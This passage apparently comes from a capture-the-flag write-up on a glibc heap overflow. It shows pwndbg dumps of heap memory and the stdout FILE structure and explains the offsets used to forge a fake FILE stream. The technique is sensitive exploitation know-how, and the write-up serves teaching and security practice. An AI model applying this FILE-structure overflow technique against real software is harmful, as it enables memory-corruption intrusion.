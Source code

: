 ```python
3e:01f0│  0x563f55657490 —▸ 0x7fb463245040 (__GI__IO_wfile_jumps) ◂— 0x0
3f:01f8│  0x563f55657498 ◂— 0x411
40:0200│  0x563f556574a0 ◂— 'Press F to doubt.\noverflow: \n'
41:0208│  0x563f556574a8 ◂— 'to doubt.\noverflow: \n'
42:0210│  0x563f556574b0 ◂— '.\noverflow: \n'
43:0218│  0x563f556574b8 ◂— 0xa203a776f /* 'ow: \n' */
44:0220│  0x563f556574c0 ◂— 0x0
... ↓     11 skipped
pwndbg> 
```

The next chunk in our case is a buffer which has been allocated previously from the `_IO_2_1_stdout_` FILE stream from `puts`. This chunk starts at `0x563f556574a0`. The offset between the next chunk and the start of our heap overflow is `0x200`. So we have `0x100` bytes more to overflow. We need `0xd8` bytes to craft a whole fake FILE stream into the heap and inorder to perform another `_IO_mem_sync` we need also `0x20` bytes more to set our `bufloc` and `sizeloc` pointers. Our total is `0xf8` bytes! Close enough! 

Fortunately for us there are a lot of references to this chunk from `_IO_2_1_stdout_`:
```python
pwndbg> p _IO_2_1_stdout_
$13 = {
  file = {
    _flags = -72537468,
    _IO_read_ptr = 0x563f556574a0 "Press F to doubt.\noverflow: \n",
    _IO_read_end = 0x563f556574a0 "Press F to doubt.\noverflow: \n",
    _IO_read_base = 0x563f556574a0 "Press F to doubt.\noverflow: \n",
    _IO_write_base = 0x563f556574a0 "Press F to doubt.\noverflow: \n",
    _IO_write_ptr = 0x563f556574a0 "Press F to doubt.\noverflow: \n",
    _IO_write_end = 0x563f556574a0 "Press F to doubt.\noverflow: \n",
    _IO_buf_base = 0x563f556574a0 "Press F to doubt.\noverflow: \n",
    _IO_buf_end = 0x563f556578a0 "",
    _IO_save_base = 0x0,
    _IO_backup_base = 0x0,
    _IO_save_end = 0x0,
    _markers = 0x0,
    _chain = 0x7fb463243aa0 <_IO_2_1_stdin_>,
    _fileno = 1,
    _flags2 = 0,
    _old_offset = -1,
    _cur_column = 0,
    _vtable_offset = 0 '\000',
    _shortbuf = "",
    _lock = 0x7fb463246750 <_IO_stdfile_1_lock>,
    _offset = -1,
    _codecvt = 0x0,
    _wide_data = 0x7fb4632439a0 <_IO_wide_data_1>,
    _freeres_list = 0x0,
    _freeres_buf = 0x0,
    __pad5 = 0,
    _mode = -1,
    _unused2 = '\000' <repeats 19 times>
  },
  vtable = 0x7fb463245580 <__GI__IO_file_jumps>
}
```
We need to pick which ever address avoids triggering `_IO_OVERFLOW` inside `_IO_flush_all_lockp`
